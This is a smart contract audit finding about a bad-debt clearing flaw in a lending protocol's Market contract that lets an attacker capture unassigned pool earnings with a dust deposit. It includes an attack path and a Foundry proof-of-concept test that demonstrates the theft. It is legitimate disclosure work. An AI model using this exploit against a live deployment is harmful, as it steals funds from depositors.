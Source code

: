 Large Fuchsia Dove

Medium

# Liquidator will leave a pool with unassigned earnings on `Market::clearBadDebt()` free to claim for anyone when the repaid maturity is not the last

### Summary

This issue remains from the [last](https://github.com/sherlock-audit/2024-04-interest-rate-model-judging/issues/130) audit, only a partial fix was applied.

The issue is that in `Market::clearBadDebt()`, when a maturity is repaid, the unassigned earnings of this pool only go to the earnings accumulator when the last maturity is liquidated. However, if it's not the last maturity, the problem remains in case there is another borrowed maturity, and some user can claim these unassigned earnings just by supplying a few funds. Or if all `floatingBackupBorrowed` was due to the repaid maturity, and now it is 0, so users can borrow and deposit 1 wei to steal the unassigned earnings.

### Root Cause

In `Market:661`, the `earningsAccumulator is only increased [when](https://github.com/sherlock-audit/2024-07-exactly-stacking-contracts/blob/main/protocol/contracts/Market.sol#L652-L655) `fixedPools[maturity].borrowed == position.principal`. `position.principal` is always 0, as `fixedBorrowPositions[maturity][borrower]` has been deleted. Thus it will only assign the unassigned earnings when `fixedPools[maturity].borrowed` becomes null after a repayment. This means that as long as there are other borrowed maturities, the unassigned earnings may be stolen.

### Internal pre-conditions

1. Unassigned earnings must exist.
2. Debt of fixed borrows has to exceed user's collateral.

### External pre-conditions

None.

### Attack Path

1. Deposit funds to `Market` via `Market::deposit()` for the maturities to borrow, increasing `floatingBackupBorrow` and generating unassigned earnings.
2. 1 maturity is borrowed which will be liquidated.
3. At least 1 other maturity is borrowed so after liquidating the first, `fixedPools[maturity].borrowed` is not null.
4. Liquidate one of the maturities, so the unassigned earnings resulting from this maturity will not go to the `earningsAccumulator`.
5. Deposit at maturity to capture the unassigned earnings from both maturities, while only contributing liquidity to the other non liquidated one, which may be a dust amount, but the full unassigned earnings are captured to a single user.

### Impact

Attacker can claim a lot of unassigned earnings just by depositing at maturity enough (may be as small as 1 wei) to cover remaining `floatingBackupBorrowed`.

### PoC

Add the following POC to `Market.t.sol`, showing how a depositMaturity of 10 wei is enough to steal all unassigned maturities.
```solidity
function test_POC_ClearBadDebt_StealMaturities() external {
  uint256 maxVal = type(uint256).max;

  marketWETH.deposit(100000 ether, address(this));
  marketWETH.borrowAtMaturity(4 weeks, 10000e18, maxVal, address(this), address(this));
  marketWETH.repayAtMaturity(4 weeks, maxVal, maxVal, address(this));

  vm.startPrank(BOB);
  market.deposit(100 ether, BOB);
  auditor.enterMarket(market);
  marketWETH.borrowAtMaturity(4 weeks, 60e18, maxVal, BOB, BOB);
  vm.stopPrank();

  vm.startPrank(ALICE);
  weth.mint(ALICE, 1_000_000 ether);
  weth.approve(address(marketWETH), type(uint256).max);
  marketWETH.deposit(10, ALICE);
  marketWETH.borrowAtMaturity(4 weeks, 1, maxVal, ALICE, ALICE);
  vm.stopPrank();

  daiPriceFeed.setPrice(0.6e18);

  (uint256 coll, uint256 debt) = marketWETH.accountSnapshot(BOB);
  console.log(debt);
  (coll, debt) = market.accountSnapshot(BOB);
  console.log(coll);

  vm.startPrank(ALICE);
  marketWETH.liquidate(BOB, 100_000 ether, market);
  vm.stopPrank();

  (, , uint256 unassignedEarningsAfter, ) = marketWETH.fixedPools(4 weeks);
  assertEq(unassignedEarningsAfter, 45028532887479452);

  address attacker = makeAddr("attacker");
  vm.startPrank(attacker);
  deal(address(weth), attacker, 10);
  weth.approve(address(marketWETH), 10);
  marketWETH.depositAtMaturity(4 weeks, 10, 0, attacker);
  vm.stopPrank();

  (, , unassignedEarningsAfter, ) = marketWETH.fixedPools(4 weeks);
  assertEq(unassignedEarningsAfter, 0);

  // Attacker gets all the unassigned earnings by contributing only 10 
  (uint256 principal, uint256 fee) = marketWETH.fixedDepositPositions(4 weeks, attacker);
  assertEq(principal, 10);
  assertEq(fee, 40525679598731507);
}
```

### Mitigation

The unassigned earnings should be assigned to the earnings accumulator pro-rata to the `floatingBackupBorrowed` cleared in the bad debt clearance.